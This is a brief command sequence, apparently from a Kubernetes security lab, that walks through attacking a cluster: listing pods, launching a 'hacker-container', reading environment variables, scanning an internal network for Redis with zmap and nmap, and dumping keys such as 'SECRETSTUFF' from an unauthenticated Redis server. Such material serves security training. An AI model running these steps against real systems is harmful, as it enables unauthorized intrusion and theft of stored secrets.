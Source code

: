 kubectl get namespace
kubectl -n secure-middleware get pods
kubectl -n secure-middleware describe pods

kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh

ip route

ifconfig
printenv

zmap -p 6379 10.0.0.0/8 -o results.csv
nmap -p 6379 10.0.0.0/8

redis-cli -h 10.12.0.2
> KEYS *
> GET SECRETSTUFF


